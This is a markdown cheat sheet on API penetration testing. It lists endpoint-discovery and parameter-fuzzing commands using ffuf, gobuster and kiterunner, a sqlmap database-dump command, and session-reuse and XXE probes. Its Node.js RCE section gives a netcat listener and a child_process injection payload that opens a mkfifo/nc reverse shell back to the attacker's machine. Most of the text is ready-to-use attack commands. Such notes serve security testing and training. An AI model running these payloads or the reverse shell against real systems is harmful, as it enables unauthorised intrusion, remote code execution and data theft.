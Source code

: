 ```yaml
---
title: API Pentesting
description: Application Programming Interface (API) is for communicating with each computer. There are several types such as Web API, REST API, RESTful API.
tags:
    - Web
refs:
    - https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44
date: 2023-03-12
draft: false
---
```


## Change Methods

```sh
# Methods
GET, POST, PUT, DELETE, OPTIONS, HEAD, PATCH, INVENTED
```

<br />

## Endpoint Discovery

```sh
/api/?xml
# Web Service Description Language
/api/?wsdl
# Versions
/api/v1/user
/api/v2/user
# Wildcards
/api/v2/user/posts/*
/api/v2/users/*
# Path traversal
/api/v1/post/..\private
```

### Automation

```sh
# Dirb
dirb https://vulnerable.com/ endpoints.txt

# Ffuf
ffuf -u https://vulnerable.com/FUZZ -w endpoints.txt
ffuf -u https://vulnerable.com/FUZZ -X POST -w endpoints.txt
ffuf -u https://vulnerable.com/api/FUZZ -w wordlist.txt
ffuf -u https://example.com/api/?FUZZ=test -w wordlist.txt

# Gobuster
gobuster dir -u https://vulnerable.com/ -w endpoints.txt

# Kiterunner
# -A: wordlist type (ex. first 20000 words)
# -x: max connection per host (default: 3)
kr scan https://vulnerable.com/api -A=apiroutes-210228:20000 -x 10
kr scan https://vulnerable.com/api -A=apiroutes-210228:20000 -x 10 --fail-status-codes 401,404
kr scan https://vulnerable.com:8443/api -A=apiroutes-210228:20000 -x 10
```

[This wordlist](https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d){:target="_blank"} is useful for endpoints.

<br />

## GET Parameters

```sh
/api/v1/user?id=test
/api/v1/user?name=test
/api/v1/user?uuid=test
/api/v1/status?live=test
/api/v1/status?verbose=test
```

### Parameter Fuzzing

```sh
# Key
ffuf -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt
ffuf -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt -fs 120
ffuf -X POST -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt
ffuf -X POST -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt -fs 120

# Value
ffuf -u https://vulenrable.com/api/items?test=FUZZ -w wordlist.xt
ffuf -u https://vulnerable.com/api/items?test=FUZZ -w wordlist.txt -fs 120
ffuf -X POST -u https://vulnerable.com/api/items?test=FUZZ -w wordlist.txt
ffuf -X POST -u https://vulnerable.com/api/items?test=FUZZ -w wordlist.txt -fs 120
```

<br />

## XSS

If we can send post (or put) requests to API endpoints, we may be able to insert payloads and the result will be reflected as the output.  
[XSS](/exploit/web/security-risk/xss/) can be used for this exploitation.

<br />

## SQL Injection

```sh
sqlmap -u http://vulnerable.com/api/v2/fetch/?post=1 --dump --batch
```

<br />

## Node.js Remote Code Execution (RCE)

If the website uses the Node (e.g. Express), we may be able to execute the JavaScript function.

```sh
# Get current working directory in the website
/api/?key=process.cwd()
```

### Reverse Shell

We may be able to execute reverse shell using "child_process".  
First off, start listener for getting a shell in local machine.

```sh
nc -lvnp 4444
```

Then send request to the website with the parameter which executes reverse shell using child_process.

```sh
/api/?key=require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 4444 >/tmp/f')
```

We should see that we get a shell in local terminal. 

<br />

## Same Session Across Multiple Versions and Instances

For example, assumed the website has two endpoints such as "/api/v1/user/login", "/api/v2/user/login".  
"v1" uses "X-Token" and "v2" uses "X-Session".  
After login to "v1", you may be able to get access "v2" using the session key/value of "v1".

```sh
X-Token: fc38ab5f5ae41072778d852023f9ee26
X-Session: fc38ab5f5ae41072778d852023f9ee26
```

<br />

## XXE

```bash
GET /api/product/1?xml HTTP/1.1
```

If the website displays the response in XML, we might be able to XXE.